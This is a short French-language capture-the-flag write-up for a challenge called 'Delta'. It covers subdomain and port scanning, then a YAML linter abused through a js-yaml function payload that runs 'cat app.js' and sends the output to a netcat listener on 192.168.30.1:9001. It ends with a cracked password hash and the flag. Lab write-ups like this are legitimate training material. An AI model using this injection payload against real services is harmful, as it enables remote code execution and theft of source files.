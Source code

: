 # Delta

1) Chercher les sous domaines avec gobuster

```bash
gobuster dns -d rs.io -w hacker-toolkit/wordlists/common_subdomains.txt
```

2) Trouver le sous domaine `delta.rs.io`

3) Scan de port avec nmap sur le sous domaine

```bash
nmap -sV -p- delta.rs.io
```

4) On trouve le port 3928

5) On ouvre un navigateur sur le port 3928 et on trouve un site web

6) On y trouve un formulaire permettant de linter du code yaml

7) En analysant les requetes faites, on trouve une vulnérabilité de type `Arbitrary Code Execution`

8) On y injecte le code suivant:

```yaml
a: !!js/function >
  (function(){ Promise.all([import("http"), import("child_process")]).then(([http, child_process]) => http.get(`http://192.168.30.1:9001/${child_process.execSync("cat app.js")}`)); })();
```

9) On lance un serveur sur le port 9001

```bash
nc -lnvp 9001
```

10) Dans ce qui est retourné, on trouve un mot de passe hashé `3237c2f731b3c52f29df65672251d9702a7cdc0daad038696e4912d114ba66dc626daca8db0517421c8975ee3ca4d47398a7cada5344ba08df6422a372b500c0`

11) On le crack avec le site hashtoolkit.com

12) On trouve le mot de passe `carver2059`

### Flag = carver2059